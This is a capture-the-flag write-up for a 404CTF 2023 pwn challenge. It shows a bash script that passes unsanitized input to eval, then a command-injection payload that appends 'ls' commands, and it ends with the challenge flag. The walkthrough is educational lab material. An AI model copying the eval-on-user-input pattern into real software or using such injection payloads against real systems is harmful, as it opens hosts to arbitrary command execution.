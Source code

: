 ```yaml
---
title: CTFs | 404CTF2023 | Pwn | Je veux la lune !
author: Stillwolfing
date: 2023-06-12
categories: ['CTFs', '404CTF2023', 'Pwn']
tags: ['CTFs', '404CTF2023', 'Pwn']
permalink: /CTFs/404CTF2023/pwn/je_veux_la_lune_!
---
```


## Context

![context](/assets/img/CTFs/404CTF2023/pwn/je_veux_la_lune_!/context.png)

We are given this code:

```sh
#!/bin/bash

Caligula=Caius

listePersonnes="Cherea Caesonia Scipion Senectus Lepidus Caligula Caius Drusilla"

echo "Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?"
read personne
eval "grep -wie ^$personne informations.txt"

while true; do
    echo "
De qui d'autre tu veux que je te parle ?"
    read personne

    if [ -n $personne ] && [ $personne = "stop" ] ; then
    exit
    fi

    bob=$(grep -wie ^$personne informations.txt)
    echo $bob
    if [ -z "$bob" ]; then
        echo "Je n'ai pas compris de qui tu parlais. Dis-moi stop si tu veux que je m'arrête, et envoie l'un des noms que j'ai cités si tu veux des informations."
    else
        echo $bob
    fi  

done
```

The variable "personne" is not sanitized. So we can run do command injection.

if we enter:

```sh
404CTF flag.txt; ls -la; ls
```

The command becomes:

```sh
grep -wie ^404CTF flag.txt; ls -la; ls informations.txt
 ```

![ls_la](/assets/img/CTFs/404CTF2023/pwn/je_veux_la_lune_!/ls_la.png)

We can diplay the content of lune:

![flag](/assets/img/CTFs/404CTF2023/pwn/je_veux_la_lune_!/flag.png)

The flag is: 404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}


























